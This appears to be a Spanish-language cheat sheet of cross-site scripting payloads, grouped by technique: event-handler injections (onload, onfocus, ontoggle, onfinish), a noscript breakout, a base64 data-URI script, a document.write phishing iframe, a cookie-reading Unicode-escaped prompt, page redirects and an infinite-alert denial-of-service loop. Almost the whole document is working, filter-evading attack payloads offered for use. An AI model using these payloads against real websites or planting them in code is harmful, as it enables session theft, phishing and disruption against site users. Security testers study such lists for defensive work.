 

### onload / onfocus

```
"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>

"><svg/onload=alert`${'000'}¥000!.was.here$`>

<svg/onload=eval("ale"+"rt")(`✓${alert`✓`}`)>

```

### noscript

`<noscript><p title="</noscript><img src=x onerror=alert(1)>">`


### redirección 

```
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"

```


### JavaScript base 64 

`<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydGBZMDAwYDwvc2NyaXB0Pg=='></object>`

### document.write + iframe

`<img src="x" onerror="document.write('<iframe src=tu_phishing></iframe>')"/>`


### xss + Unicode

`<marquee loop=1 width=0 onfinish=\u0070\u0072\u006f\u006d\u0070\u0074(document.cookie)>Y000</marquee>`


### ontoggle

`"><details/open/ontoggle=confirm("/xss_by_Y000!/")>`

### XSSDoS

```
<script> for(;;) alert("_Y000!_")</script>
<meta%20http-equiv="refresh"%20content="0;">
"  autofocus '-->--!><Input/Autofocus/*/Onfocus=document.location=``;alert`_Y000!_`//>
```

